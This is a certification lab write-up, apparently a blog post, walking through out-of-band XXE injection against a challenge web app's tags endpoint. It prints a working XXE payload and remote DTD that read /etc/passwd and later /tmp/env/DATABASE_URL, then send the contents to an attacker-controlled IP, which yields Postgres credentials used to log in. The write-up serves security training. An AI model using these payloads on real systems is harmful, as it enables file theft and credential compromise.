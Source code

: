 ```yaml
---
title: Challenge 12:When things aren't working, go out of band
author: beard3nx
date: 2024-05-15 05:04:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     ## TAG names should always be lowercase
render_with_liquid: false
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


## Challenge/Task

1. XXE INJECTION

**Proof-of-Concept (POC):**

There is a field “tags” where the system can query the available tags that has been created before on the website

![POC-otb](/img/cwae/wta1.png){: w="400" h="400" }{: .normal }

This is how the server response when we are calling the /tags endpoint. It will listed all tags that are available. 

![POC-otb](/img/cwae/wta2.png){: w="400" h="400" }{: .normal }

With the same technique XXE before, I try to change the content type of Json to XML format and the server seems accept the format too. You can see how the <tag> there. So maybe we can try XXE attack too ?

![POC-otb](/img/cwae/wta3.png){: w="400" h="400" }{: .normal }

However, when I send the same payload as before for XXE, the server did not respond anything. So, we cannot prove if this is vulnerable or not. We need to use Out of Band Technique.

![POC-otb](/img/cwae/wta4.png){: w="400" h="400" }{: .normal }

Out-of-band XXE (XML External Entity) injection is a technique used to exploit XML processors that support external entities, allowing an attacker to extract data from a server without receiving the actual response in-band with the HTTP response.
I will send malicious XML data to the server, typically containing references to an external entity defined in a Document Type Definition (DTD) file. This DTD file is hosted on our VPS server When the server processes the XML input, it resolves the external entity reference, causing the server to make a request to my controlled server to retrieve the entity content.

Payload sends to server
```jsx
<!DOCTYPE data [<!ENTITY % init SYSTEM "file:///etc/passwd"> 
  <!ENTITY % dtd SYSTEM "http://143.198.205.200:9003/d.dtd"> %dtd;]> 
<data>&send;</data>
```

dtd File created in remote server
```jsx
<!ENTITY % all "<!ENTITY send SYSTEM 'http://143.198.205.200:8090/?collect=%init;'> "> %all;
```
![POC-otb](/img/cwae/wta5.png){: w="400" h="400" }{: .normal }

I start to send the payload to the server. We can see the left side showing us the d.dtd is downloaded by the server. However, the /etc/passwd is not showing inside our listeners. 

![POC-otb](/img/cwae/wta6.png){: w="400" h="400" }{: .normal }

We must step back and see what the problem is here. The dtd file is already correct but somehow no result. Something error at the payload send to the server I guess. Previous challenges, we already performed port scanning to the target. We saw a port that is unknown. Further checking, it is a Postgres DB. So, we must change our payload.

![POC-otb](/img/cwae/wta7.png){: w="400" h="400" }{: .normal }


In PostgreSQL, /tmp/env/DATABASE_URL is likely a reference to a temporary file path where an environment variable called DATABASE_URL might be stored. So, we change the /etc/passwd to /tmp/env/DATABASE_URL and send again the request. You can see, our listener starting to collect the response from server. If you noticed, the line there refer to Postgres username and password. We can try it.. 

![POC-otb](/img/cwae/wta8.png){: w="400" h="400" }{: .normal }

We can now successfully login to the Postgres using the username and password.

![POC-otb](/img/cwae/wta9.png){: w="400" h="400" }{: .normal }

